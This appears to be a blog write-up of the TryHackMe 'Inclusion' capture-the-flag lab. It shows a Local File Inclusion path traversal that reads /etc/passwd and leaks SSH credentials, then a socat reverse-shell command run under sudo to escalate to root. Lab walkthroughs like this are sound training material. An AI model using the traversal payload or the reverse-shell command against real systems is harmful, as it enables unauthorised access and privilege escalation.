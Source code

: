 ```yaml
---
title: TryHackMe Inclusion
date: 2020-12-05
categories: [TryHackMe]
thumbnail: /assets/img/thm/inclusion/main.png
excerpt: We use an LFI to gain initial access, then use a socat PrivEsc.
tags: [LFI,socat,SSH]
---
```


# TryHackMe Inclusion
This is a beginner level room designed for people who want to get familiar with Local file inclusion vulnerability. 

## Nmap

![nmap](nmap.png)

We have only 2 ports open `port 22` and `port 80`

## Website

![website](website.png)

Clicking on one of the articles we can see in the URL `article?name=lfiattack` 
This is an indication of file inclusion.

An attacker can use Local File Inclusion (LFI) to trick the web application into exposing or running files on the web server. An LFI attack may lead to information disclosure, remote code execution, or even Cross-site Scripting (XSS). [LFI](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/)

As we can see, switching `article?name=lfiattack` to be `article?name=../../../../etc/passwd`
![LFI](lfi.png)

It seems we have credentials of `falconfeast:rootpassword`. The only way we can use these credentials is through SSH. So let's try that

## SSH

It seems those credentials work.
![ssh](ssh.png)

Your user flag is right in your current working directory.

## Root

Let's check to see what we can run as sudo with no password
Running `sudo -l`

![sudo](sudo.png)

Looking up `socat` on [GTFOBins](https://gtfobins.github.io/gtfobins/socat/#sudo)

We can run `socat file:`tty`,raw,echo=0 tcp-listen:1234` on our host machine to set up a listener. On the target machine, we'll use what they provided `sudo -E socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane`.

As you can see, we now have root access.

![root](root.png)

Your root flag is place in `/root`.